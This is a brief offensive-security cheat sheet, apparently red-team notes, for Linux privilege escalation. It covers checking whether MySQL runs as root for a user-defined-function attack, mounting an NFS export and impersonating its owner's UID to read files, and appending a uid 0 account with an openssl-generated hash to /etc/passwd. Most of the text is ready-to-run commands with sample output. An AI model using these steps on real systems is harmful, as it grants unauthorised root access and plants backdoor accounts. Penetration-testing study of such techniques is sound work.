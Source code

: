 ### [MySQL User Defined Functions](https://redteamnation.com/mysql-user-defined-functions/)

check if user = root

```shell
cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep user
```

NFS mount privilege

```shell
showmount -e <target ip>
# Export list for <target ip>:
# /home/tester    *
mkdir /tmp/tester
sudo mount -t nfs <target ip>:/home/tester /tmp/tester
find /tmp/tester -ls
# file permission, match uid
# drwxr-xr-x   2 1003     1003         1234 Feb 15 13:59 /tmp/Documents
sudo useradd tester01
sudo usermod -u 1003 tester01
sudo su tester01 -c bash
ls -la /tmp/tester
```

/etc/passwd

```shell
# generating password
openssl passwd -1 -salt 1234 <password>
# openssl passwd -1 -salt 1234 test1234
# $1$1234$LedaKjyvU08i2tNM5HGSg.
# create new user
# echo "test01:\$1\$1234\$LedaKjyvU08i2tNM5HGSg.:0:0:root:/root:/bin/bash" >> /etc/passwd
# su test01
```